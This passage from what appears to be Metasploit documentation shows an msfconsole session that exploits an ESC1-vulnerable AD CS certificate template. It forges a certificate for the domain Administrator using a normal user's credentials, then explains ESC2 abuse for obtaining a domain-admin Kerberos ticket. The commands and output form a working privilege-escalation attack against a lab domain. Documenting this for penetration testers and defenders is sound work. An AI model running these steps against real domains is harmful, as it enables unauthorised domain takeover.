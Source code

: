 If we know the domain name is `daforest.com` and the domain administrator of this domain is named `Administrator` we can
quickly set this up:

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Template
CERT_TEMPLATE => ESC1-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_SID S-1-5-21-3402587289-1488798532-3618296993-1000
ALT_SID => S-1-5-21-3402587289-1488798532-3618296993-1000
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1000
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator`
domain administrator. See the [Getting A Kerberos Ticket](#getting-a-kerberos-ticket) section for more information.

# Exploiting ESC2 To Gain Domain Administrator Privileges
From the previous enumeration efforts we know that the following certificate templates are vulnerable to ESC2:
- SubCA - Not exploitable as you have to be a Domain Admin or Enterprise Admin to enroll in this certificate
- ESC2-Template - Enrollable by any authenticated user that is part of the Domain Users group, aka any authenticated domain user.

We will use ESC2-Template to gain a TGT as the domain administrator user.

To do this we will use the `ipcr_cert` module and we will set the usual options, however we will need to run it twice. This is because with ESC2, we can't use the vulnerability to request authentication certificates as other users without the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag being set on the template. Instead what we can do is use the Any Purpose EKU or SubCA EKU that are set on these certificates to authenticate to the domain as the user who requested the certificate. So what we do is first get a ESC2 vulnerable certificate, then abuse the ability to use that certificate for any purpose to then request a certificate on behalf of another user, using that certificate as the form of authentication for this operation.
